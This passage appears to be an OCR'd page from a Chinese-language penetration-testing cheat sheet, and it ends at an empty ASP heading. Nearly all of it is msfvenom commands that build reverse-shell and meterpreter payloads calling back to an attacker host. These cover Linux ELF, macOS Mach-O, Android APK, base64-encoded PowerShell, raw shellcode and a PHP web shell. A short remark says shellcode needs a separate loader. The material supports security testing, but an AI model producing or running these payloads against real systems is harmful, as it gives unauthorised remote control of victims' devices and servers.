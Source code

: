 ###### Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=9999 -a x86 --platform Linux -f elf > shell.elf
```

###### Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=9999 -a x86 --platform osx -f macho > shell.macho
```

###### Android

```
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=9999 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=3333 R > test.apk
```

###### Powershell

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.1.2 LPORT=9999 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1  
```

##### (2) 生成各平台下的shellcode:

###### Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=9999 -f <编程语言类型>
```

###### Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=9999 -f <编程语言类型>
```

###### Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=9999 -f <编程语言类型>
```

shellcode生成后无法直接使用,需要编写shellcode加载器来配合运行(可以百度各语言的shellcode加载器)

##### (3) Web常用的payloads:

###### PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.223 LPORT=9999 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

###### ASP
